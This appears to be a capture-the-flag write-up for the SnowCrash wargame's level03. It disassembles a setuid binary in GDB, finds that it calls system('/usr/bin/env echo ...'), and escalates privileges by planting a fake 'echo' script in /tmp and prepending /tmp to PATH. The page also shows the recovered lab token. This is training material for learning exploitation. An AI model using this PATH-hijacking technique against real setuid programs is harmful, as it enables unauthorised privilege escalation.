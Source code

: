 # Level 03

- We login as user level03.
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```
level03@SnowCrash:~$ ./level03
Exploit me
```


- A binary has been left for us, it belongs to user flag03 and group level03. Additionally, [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) are set.
Thus, this binary is executed with the privileges of user flag03 and group level03.
Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level03/level03.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048340  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```


- We can see that the program makes a call to `<system@plt>` right after moving the address `0x80485e0` on top of the stack.
Let's display the value contained at this address.
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```


- So, the program calls `system("/usr/bin/env echo Exploit me")`.
In bash, `echo` is a built-in command, but with the preceding `/usr/bin/env`, the program will use the `PATH` environment variable to search for the echo binary.
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
```

```
level03@SnowCrash:~$ chmod +x /tmp/echo
```

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```
level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```